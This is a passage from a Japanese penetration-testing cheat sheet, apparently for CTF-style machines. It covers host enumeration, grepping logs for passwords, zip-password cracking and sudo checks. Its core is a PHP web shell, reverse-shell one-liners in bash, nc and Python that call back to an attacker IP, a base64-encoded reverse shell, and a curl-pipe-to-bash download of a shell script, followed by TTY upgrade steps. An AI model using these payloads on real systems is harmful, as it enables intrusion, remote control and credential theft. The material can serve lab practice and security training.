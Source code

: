         - `ifconfig` では現在侵入しているホストやサーバのIPアドレスを確認できる
        - `ip route` ではデフォルトゲートウェイを確認できる
        - nmapでfiltered状態のポートにアクセスできないか試してみる
        - docker環境内でホストマシンのIPに対してポートスキャンを実行し開放ポートを特定する
        - `ls -la` の出力で通常ユーザ名やグループ名が表示されているところにIDのみ表示されている場合は外部のディレクトリがマウントされている可能性がある
            - `mount` コマンドでマウントされているディレクトリを探してみる
        - root権限の場合は `/etc/shadow` を見ることができる
- **ログ:**
    - 何らかの形でログにアクセスできる場合は `grep -ri passw DIRECROTY_PATH 2>/dev/null` などを実行してパスワードを入力したログがないか調べてみる( `passwd` と `password` 両方調べるため)
- **その他:**
    - パスワード付きのzipファイルがある場合は `base64 -w0` エンコードしてローカルでデコードしてjohn2zipなどを用いてクラックする。
    - ファイルの所有者に注目。目的のユーザの場合は要チェック。
    - rockyouから特定のワードをgrepで抽出して新しいワードリストを作成してみる
    - 怪しい名前のファイルやコマンドがある場合はマニュアルを検索してみる
    - 16進数データ化された圧縮ファイルの解凍はCyberChefの `Detect File Type` を使うと簡単
        - [https://0xdfimages.gitlab.io/img/curling-cyberchef.gif](https://0xdfimages.gitlab.io/img/curling-cyberchef.gif)
    - プラグインやソフトウェアについて調べるときは当該ファイルのMD5ハッシュ値をGoogleで調べると有効な可能性
        - `md5sum FILE_NAME`
## 3. リバースシェルとWebシェル
### 3.1. Webシェルの設置
- **シンプルなPHP Webシェル:**
  ```php
  <?php echo system($_GET["cmd"]); ?>
  ```
### 3.2. リバースシェルの確立
- **bash:**
  `bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`
- **nc:**
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f`
- **Python:**
  `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect( ("<ATTACKER_IP>",<PORT>) );os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- **エンコード:**
  `echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMC8yMjIyIDA+JjE=' | base64 -d | bash`
- **ファイル経由:**
  1. 攻撃者側でリバースシェルスクリプト (`rev.sh`) を用意
  2. 攻撃者側でHTTPサーバを起動 (`python3 -m http.server 8080`)
  3. ターゲット側でダウンロードして実行: `curl <ATTACKER_IP>:8080/rev.sh | bash`
- **その他:**
    - 通常のリバースシェルのコマンドがうまく実行できない場合
        - base64エンコードしてデコードしてみる
        - リバースシェルを起動するシェルスクリプトファイルをローカルに作成してcurlでターゲット側からダウンロードして実行させる
### 3.3. シェルのアップグレード (TTY)
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `Ctrl-Z`
3. `stty raw -echo`
4. `fg`
5. `reset`
6. `export TERM=screen`
## 4. root権限奪取 (Root Privilege Escalation)
### 4.1. 初期調査
- **`sudo -l`:** sudoで実行可能なコマンドを確認 (GTFOBins)
    - `env_keep+=LD_PRELOAD` となっている場合は[こちらの手法](https://www.notion.so/2aadb85a7f7b4d26b5ed0e9247082613?pvs=21)を試す
    - `SETENV` タグが付いている場合は当該コマンドの実行時に任意の環境変数をセットすることができる
    - 怪しいコマンドが載っている場合は `file` コマンドや `strings` コマンドを用いて静的解析